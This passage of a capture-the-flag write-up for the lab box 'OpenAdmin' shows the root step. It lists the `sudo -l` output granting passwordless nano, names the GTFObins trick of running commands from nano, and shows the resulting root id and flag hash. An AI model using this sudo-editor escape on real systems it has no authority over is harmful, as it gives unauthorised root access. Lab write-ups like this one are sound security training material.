 # Getting root

We start enumerating the box and found that we have the `sudo` right without
password on `/bin/nano /op/priv/`.

    :::text
    joanna@openadmin:~$ sudo -l
    Matching Defaults entries for joanna on openadmin:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User joanna may run the following commands on openadmin:
        (ALL) NOPASSWD: /bin/nano /opt/priv

A quick look at [GTFObins]( https://gtfobins.github.io/gtfobins/nano/) show us
that we can execute commands in nano with <^R^X>. We just run `id` and `cat
/root/root.txt`.

    :::text
    GNU nano 2.9.3

    uid=0(root) gid=0(root) groups=0(root)
    2f907ed450b361b2c2bf4e8795d5b561

# Wrapping up

This was a really easy box with almost no rabbit hole. I will recommend this box
for the beginner until it retires (of course this article will be publish after
its retirement).

